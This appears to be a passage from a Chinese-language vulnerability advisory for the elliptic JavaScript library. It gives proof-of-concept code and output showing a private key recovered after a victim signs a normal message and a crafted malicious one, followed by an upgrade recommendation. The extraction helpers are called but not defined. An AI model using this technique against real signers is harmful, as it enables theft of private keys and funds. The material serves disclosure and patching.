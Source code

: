   
代码示例：  
```
const elliptic = require('elliptic');
const BN = require('bn.js');
const keccak256 = require('keccak256');

const { ec: EC } = elliptic

const curve = 'secp256k1' // or any other curve, e.g. ed25519
const ec = new EC(curve)
const privateKey = crypto.getRandomValues(new Uint8Array(32))  // 随机私钥

// 模拟受害者签署一笔正常的交易消息
const message = "Example `personal_sign` message";
const msg0 = createEthereumSignatureMessage(message);
const sig0 = ec.sign(msg0, privateKey);

// 构造恶意消息
const msg1 = Maliciousmsg(msg0);

// 模拟受害者签署恶意消息
const sig1 = ec.sign(msg1, privateKey);

// 利用数学计算提取签名
const Fake_privateKey = extract(msg0, sig0, sig1, curve)

console.log('Curve:', curve)
console.log('Typeof:', typeof msg1)
console.log('Keys equal?', Buffer.from(privateKey).toString('hex') === Fake_privateKey)
const rnd = crypto.getRandomValues(new Uint8Array(32))
const st = (x) => JSON.stringify(x)
console.log('Keys equivalent?', st(ec.sign(rnd, Fake_privateKey).toDER()) === st(ec.sign(rnd, privateKey).toDER()))
console.log('Orig key:', Buffer.from(privateKey).toString('hex'))
console.log('Restored:', Fake_privateKey)
```  
  
  
运行输出：  
```
Curve: secp256k1
Typeof: object
Keys equal? true
Keys equivalent? true
Orig key: dcd768c5a8346fe51d24377b1e7c47b2afa6d5e8a4fd12de685fce59d4d83e8d
Restored: dcd768c5a8346fe51d24377b1e7c47b2afa6d5e8a4fd12de685fce59d4d83e8d
```  
#   
# 修复建议  
  
  
1. 升级 elliptic 至 6.6.1+，官方已修复该问题。  
  